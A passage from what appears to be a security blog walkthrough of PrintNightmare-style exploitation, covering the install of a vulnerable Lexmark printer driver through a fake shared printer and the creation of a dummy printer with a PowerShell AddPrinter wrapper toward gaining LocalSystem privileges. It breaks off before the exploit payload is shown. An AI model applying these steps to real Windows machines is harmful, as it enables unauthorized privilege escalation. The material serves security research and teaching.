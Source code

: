 If all goes well, the output of each command should be empty, and the printer driver "Lexmark Universal v2" should appear in the list of installed drivers. You can double check using the command `Get-PrinterDriver -Name "Lexmark Universal v2"` if you wish.

![Connecting to the fake shared printer from the target machine](/assets/posts/2024-01-28-printnightmare-exploitation/16_add-fake-printer-from-client.png)
_Connecting to the fake shared printer from the target machine_

> At this stage, you can remove the fake printer on both client and server sides as we no longer need it.
{: .prompt-tip}

### 3. Exploiting the printer driver (Target)

Here comes the fun part! Now that the vulnerable printer driver is installed on the target, we want to exploit it to gain `LocalSystem` privileges.

The very first thing to do is create a dummy printer that uses this driver. This can be achieved through the `AddPrinter` Win32 API, which I wrapped in a PowerShell cmdlet.

```powershell
. .\PointAndPrint.ps1
$PrinterInfo = New-Object $PRINTER_INFO_2
$PrinterInfo.PortName = "LPT1:"
$PrinterInfo.DriverName = "Lexmark Universal v2"
$PrinterInfo.PrinterName = "ACIDDAMAGE"
$PrinterInfo.PrintProcessor = "WinPrint"
$PrinterInfo.DataType = "RAW"
$PrinterInfo.Attributes = 0x00001000 + 0x00000020
$PrinterHandle = Add-WinSpoolPrinter -PrinterInfo $PrinterInfo
```
